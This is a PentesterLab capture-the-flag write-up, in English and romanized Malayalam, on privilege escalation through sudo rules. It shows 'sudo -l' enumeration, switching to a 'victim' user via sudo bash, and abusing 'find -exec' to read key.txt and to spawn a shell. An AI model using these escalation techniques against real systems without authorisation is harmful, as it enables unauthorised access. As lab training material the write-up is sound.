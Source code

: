 # 25 - sudo -l (bash)
-->In this challenge, we are going to look into the `sudo` command. The `sudo` command is used to run commands as another user. Most of the time, it's used to give unpriviliged users the right to run command as `root`.
-->The first thing to do is to check what you can do by running the following command:
->`sudo -l`
-->adyam lab il keruka
-->enit ->sudo -l     adich nokuka.password choikum ath kodukuka ie, `pentesterlab`
-->apol avide kanikum :
```
User pentesterlab may run the following commands on ce33921dba5a: 
	(victim) /bin/bash
```
-->so victim enna user in bash command use chyan ulla privilege und
-->aadyam namude current user aayi ee command use chyan patumon nok :
->`sudo bash`
-->`Sorry, user pentesterlab is not allowed to execute '/bin/bash' as root on ce33921dba5a.`  enn result kanikunund.namuk already ariyam victim enna user in mathrame bash use chyan ulla privilege admin koduthitulu enn.ennalum nokiyathan ok
-->ini nauk victim aayi bash use chyam :
->`sudo -u victim bash`   or ->`sudo -u victim /bin/bash`    ethayalum kozhapila
-->ipo namul victim aayi mari.ini victim inte home il pokuk ie, ->cd ~
-->avide ls adich nokiyal kanam oru key.txt file kidakunath.so ath cat chythal key kitum ok

# 26 - sudo -l (find)
-->You can see that you're allowed to run the command `/usr/bin/find`, based on previous exercise on `find` and the argument `-exec`, you should be able to escalate your privileges and start a shell (`/bin/bash`) as the `victim` user
-->adyam lab open chyuka enit ->sudo -l adikuka
```
User pentesterlab may run the following commands on c2731dce247b: 
	(victim) /usr/bin/find
```
-->so victim user in find command sudo command vazhi use chyan patum
-->so namuk rand reethiyil expoloit chyan patum ivide.
==1)==-->namuk sudo command vazhi thane find vech -exec use chyth key kandetham ie,
->`sudo -u victim find /home/victim`
-->ipol namuk victim inte home il enthoke undon ariyan patum
->`sudo -u victim find /home/victim -name key.txt `
-->ipol namuk key text file kanan patum
->`sudo -u victim find /home/victim -name key.txt -exec cat {} \;`
-->ipol namuk ivide nin key kitum

==2)==-->randamathe reethi enthenal ee victim user intel oru shell access edukuka ennathan
-->so athine munnethe command pole thane but cat in pakaram bash enn koduthal mathi. apol namuk bash shell kitum
->`sudo -u victim find /home/victim -name key.txt -exec bash\;`
-->ipol namal victim aayi mari.ini home il ninum key.txt cat chythal key kitum
-->NOTE: ivide ee command sredhik.namuk ee find vech result venam pakshe ithra specific aakenda karyamonum ila.namuk bash shell aan vendath.so ethengilum oru result sudo victim vech kityal mathi.so command simple aakam :
->`sudo -u victim find /etc -name passwd -exec bash \;`
-->namuk ariya ella /etc directory ilum passwd file und.so namal sudo vech find chyumbol /etc pathil passwd file find kandethum angane namuk bash shell kitum ok.allathe nerthe pole specific aayi chyenda karyamila ok
